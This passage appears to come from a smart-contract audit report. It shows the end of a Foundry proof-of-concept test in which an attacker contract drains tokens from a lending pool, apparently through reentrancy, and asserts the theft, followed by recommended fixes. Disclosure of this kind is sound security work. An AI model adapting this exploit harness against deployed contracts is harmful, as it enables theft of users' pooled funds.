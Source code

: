 ```solidity

    // Exploit starts here
    vm.startPrank(attacker);
    Exploit2 attackContract = new Exploit2(lender, address(weirdToken), address(collateralToken));
    collateralToken.transfer(address(attackContract), 100*10**18);
    uint256 debt = 10*10**18;
    uint256 collateral = 100*10**18;
    uint256 loanId = 0;
    uint256 newDebt = 100*10**18;
    attackContract.attack(poolId, debt, collateral, loanId, newDebt);

    // After the exploit
    assertEq(collateralToken.balanceOf(address(lender)), 0);
    assertLt(weirdToken.balanceOf(address(lender)), 650*10**18);        // Pool lost some weirdTokens
    assertEq(collateralToken.balanceOf(address(attacker)), 100*10**18); // Attacker keept his collateralTokens
    assertGt(weirdToken.balanceOf(address(attacker)), 350*10**18);      // Attacker stole some weirdTokens
}
```

## Tools Used
Manual review + Foundry

## Recommendations
Follow the _Checks - Effect - Interactions_ (CEI) pattern by updating the loan debt before transfering the excess loan tokens AND use nonReentrant modifiers

